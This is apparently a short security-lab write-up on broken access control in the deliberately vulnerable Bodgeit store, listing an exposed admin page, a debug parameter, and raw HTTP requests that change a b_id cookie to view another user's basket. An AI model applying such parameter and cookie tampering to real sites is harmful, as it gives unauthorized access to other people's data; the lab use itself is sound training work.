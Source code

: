 # A5 - Broken Access Control

## Bodgeit

### Hello admin

`http://bodgeit.lab:8080/bodgeit/admin.jsp`

### Debug please

`http://bodgeit.lab:8080/bodgeit/basket.jsp?debug=true`

### Not my basket

```
GET /bodgeit/basket.jsp HTTP/1.1
Host: bodgeit.lab:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bodgeit.lab:8080/bodgeit/basket.jsp
Cookie: JSESSIONID=02E607A00E74F587A15899DEB2332938; b_id=2; PHPSESSID=65a0knksrnnnt7k22tb1otjre0
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Moj kosik `Cookie: b_id=2;` ?


```
GET /bodgeit/basket.jsp HTTP/1.1
Host: bodgeit.lab:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://bodgeit.lab:8080/bodgeit/basket.jsp
Cookie: JSESSIONID=02E607A00E74F587A15899DEB2332938; b_id=1; PHPSESSID=65a0knksrnnnt7k22tb1otjre0
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
